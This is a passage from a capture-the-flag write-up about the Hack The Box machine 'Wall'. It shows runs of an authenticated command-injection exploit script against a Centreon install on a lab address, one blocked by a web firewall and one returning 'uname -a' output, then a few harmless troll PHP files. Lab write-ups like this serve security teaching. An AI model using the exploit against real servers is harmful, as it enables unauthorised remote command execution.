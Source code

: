 
When it runs, it looks like, with both a failure (`hostname` is blacklisted)
and a success:

    
    
    root@kali# ./centreon-0xdf.py http://10.10.10.157/centreon/ admin password1 "hostname"
    [+] Retrieving CSRF token to submit the login form
    [+] Login token is : 829c505845f89f2057d44136440c8665
    [+] Logged In Sucssfully
    [+] Retrieving Poller token
    [+] Poller token is : ca4c0c82566cef21642020c602a2feac
    [*] Payload inject status code: 403
    [-] WAF blocked command. Try something else
    
    root@kali# ./centreon-0xdf.py http://10.10.10.157/centreon/ admin password1 "uname -a"
    [+] Retrieving CSRF token to submit the login form
    [+] Login token is : f1751b09c89e8cded9ed6d469bec20d6
    [+] Logged In Sucssfully
    [+] Retrieving Poller token
    [+] Poller token is : e056d43e94946b0dfeec827b36ff26fd
    [*] Payload inject status code: 200
    [+] Injecting Done, triggering the payload
    Linux Wall 4.15.0-54-generic #58-Ubuntu SMP Mon Jun 24 10:55:24 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
    

### Trolls

One of my least favorite thing about this box was a series of weird troll
files sprinkled all over it. It’s not clear to me why authors add these kinds
of things without any pretense that they belong on the boc. That said, I
always check them out once I have a shell.

On the main webroot, `aa.php` and `panel.php` were files I spent some time
fuzzing.

`aa.php`:

    
    
    <?php
    
    echo 1;
    
    ?>
    

`panel.php`:

    
    
    <?php
    
    
    echo "Just a test for php file !";
    
    ?>
    

There was another added at the `/centreon/` root, `a.php`:

    
    
    <?php
    echo 1;
    
    ?>
    

Nothing here interesting.

[](/2019/12/07/htb-wall.html)

